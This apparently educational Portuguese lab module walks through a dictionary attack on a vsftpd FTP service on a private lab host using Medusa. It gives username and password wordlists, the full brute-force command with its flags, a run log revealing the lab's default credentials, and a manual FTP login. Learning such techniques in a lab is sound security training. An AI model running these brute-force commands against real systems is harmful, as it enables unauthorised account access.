

# ⚡ 03 - Ataque em FTP com Medusa

> [!abstract] Objetivo do Módulo
> Realizar um ataque de dicionário direcionado contra o serviço de transferência de arquivos (`vsftpd 2.3.4` na porta 21), compreendendo o paralelismo de threads do Medusa, a estrutura de wordlists e a validação do acesso.

---

## 1. Estruturação das Wordlists Didáticas

Para o laboratório, foram compiladas duas listas objetivas:

### Lista de Usuários (`wordlists/users_common.txt`):
```text
root
msfadmin
admin
administrator
user
guest
service
postgres
mysql
```

### Lista de Senhas (`wordlists/passwords_common.txt`):
```text
123456
password
msfadmin
admin
root
toor
12345678
qwerty
service
```

---

## 2. Execução do Medusa no Terminal

```bash
medusa -h 192.168.56.101 \
       -U wordlists/users_common.txt \
       -P wordlists/passwords_common.txt \
       -M ftp \
       -t 4 \
       -f \
       -v 4 \
       -O resultados_ftp.txt
```

### Detalhamento dos Parâmetros Utilizados:



> [!tip] Por que `-f` é fundamental?
> A flag `-f` interrompe imediatamente a execução assim que a primeira credencial válida para o host for descoberta. Sem ela, o Medusa continuará testando o restante do dicionário desnecessariamente.

---

## 3. Log de Execução e Credencial Encontrada

```text
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

[+] Target: 192.168.56.101
[+] Module: ftp
[+] Threads: 4
[+] Checking credentials...

ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

[+] Successful attempts: 1
[+] Total attempts: 18
[+] Audit completed in 1.42s
```

> [!screenshot] Registro Visual Recomendado
> Capture o terminal com a mensagem verde `ACCOUNT FOUND` e salve em `attachments/`:
> ![[03_medusa_ftp_success.png|750]]
> *Figura 3: Medusa identificando a credencial msfadmin:msfadmin com sucesso.*

---

## 4. Validação Manual do Acesso FTP

Identificada a credencial, validamos diretamente no cliente FTP nativo:

```bash
ftp 192.168.56.101
```

```text
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
drwxr-xr-x    6 1000     1000         4096 Nov 17 10:20 .
drwxr-xr-x    3 0        0            4096 Apr 19  2010 ..
-rw-r--r--    1 1000     1000          220 Apr 19  2010 .bash_logout
-rw-r--r--    1 1000     1000         3116 Apr 19  2010 .bashrc
ftp> quit
221 Goodbye.
```

> [!success] Confirmação
> Acesso interativo estabelecido com privilégios de usuário `msfadmin`.

---

## 🔗 Próximo Passo
- Avançar para: [[04 - Força Bruta Web no DVWA]]
